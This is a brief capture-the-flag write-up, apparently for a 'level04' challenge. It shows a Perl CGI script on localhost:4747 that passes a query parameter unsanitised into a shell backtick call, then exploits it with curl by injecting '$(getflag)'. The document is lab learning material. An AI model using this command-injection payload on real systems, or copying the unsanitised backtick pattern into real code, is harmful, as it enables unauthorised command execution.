 1. `cat level04.pl`
   ```perl
   #!/usr/bin/perl
   # localhost:4747
   [...]
     print `echo $y 2>&1`;
   [...]
   x(param("x"));
   ```

2. `curl localhost:4747?x=test`
   ```
   test
   ```

3. `curl 'localhost:4747?x=$(getflag)'`
